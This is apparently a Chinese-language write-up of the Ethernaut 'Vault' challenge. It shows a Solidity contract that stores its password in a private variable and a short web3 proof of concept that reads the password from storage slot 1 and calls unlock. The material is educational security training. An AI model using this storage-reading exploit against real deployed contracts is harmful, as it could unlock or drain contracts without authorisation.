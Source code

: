 ```yaml
---
title: '链上数据的读取'
date: 2022-12-10 14:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第八关Vault  思路与POC

##### 目标: 想办法设置locked变量为false

#### 先看代码:

##### 获取到密码即可解锁

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  //emm 密码没有加密放在链上,但是设置为私有
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

##### poc思路:point_right:：其实链上的数据都是可以读取的,设置类型为private或者internal仅仅是其他合约不能获取到而已

```js
/*
首先需要了解链上数据在合约中是怎么存储的：每个合约都能够使用2^256数量单位的slot,每个slot大小为32字节
   bool public locked; -> slot 0 index 0 
   bytes32 private password; ->slot 1 index 1
   所以链下需要读取slot1的数据
   web3.eth.getStorageAt('contract address',slotNumber)
*/
await web3.eth.getStorageAt('0xc49187d591C476cEA043F37068880F79a8015F9F',1,(err,res)=>{console.log(res)})
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
//成功解锁
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
```

